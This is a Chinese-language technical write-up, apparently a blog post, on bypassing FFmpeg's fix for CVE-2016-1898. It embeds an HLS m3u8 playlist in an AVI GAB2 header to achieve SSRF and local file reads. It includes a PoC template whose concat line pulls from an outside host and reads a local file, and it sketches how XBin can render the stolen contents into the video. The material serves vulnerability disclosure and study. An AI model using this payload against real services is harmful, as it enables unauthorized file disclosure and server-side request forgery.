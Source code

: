 #### 漏洞细节

在上个月的phdays conference里，通过视频格式的一个trick bypass了厂商对SSRF的封堵。

在AVI视频中，有一个数据块可以定义字幕，叫做GAB2，位置于AVI header中，有趣的是m3u8可以插入到avi文件中，且FFmpeg依旧会对有文件头#EXTM3U的AVi视频做HLS处理。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01f935ca552ccb4a48.jpg)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01dbb71e3b3dc83137.png)

所以我们可以通过对含有GAB2 header的AVI视频中嵌入m3u8，bypass厂商对CVE-2016-1898的修复。

只需要将之前的PoC嵌入AVI中，依然可以读取到目标文件。



```
[AVI header GAB2 header]

#EXTM3U

#EXT-X-TARGETDURATION:6

#EXTINF:10.0,

concat:http://rr.sb/poc/header.m3u8|file:///tmp/vuln

#EXT-X-ENDLIST

[AVI body footer]
```

Emil Lerner和Pavel Cheremushkin在会议中其实披露了多个FFmpeg的漏洞，其中一个最为有意思的，也就是在hackerone公开报告中用到的漏洞，把读取到的文件内容输出到视频中，从而可以让文件读取可以在无网络环境的情况下利用。

利用思路如下：

同样将m3u8嵌入到带有GAB2的AVI视频中，对文件格式检查进行bypass。

因为之前说过，m3u8并不是真正的视频资源，所以如果要播放，必须还要在m3u8中嵌入一个可播放的视频资源，其中有一个古老的媒体格式XBin，这个媒体格式具备基本显示图片，文本的功能，体积非常小，最重要的是，这个媒体格式可编程，如果嵌入到m3u8中，将目标文件作为对象，用xbin绘制成为字符，就可以作为合法可播放的视频文件观看了，所以依次嵌套后，文件内容大致为：



```
[AVI header]

[GAB2 header]

[m3u8 header]

[XBIN header]

目标文件

[XBIN footer]

[m3u8 footer]

[AVI footer]
```
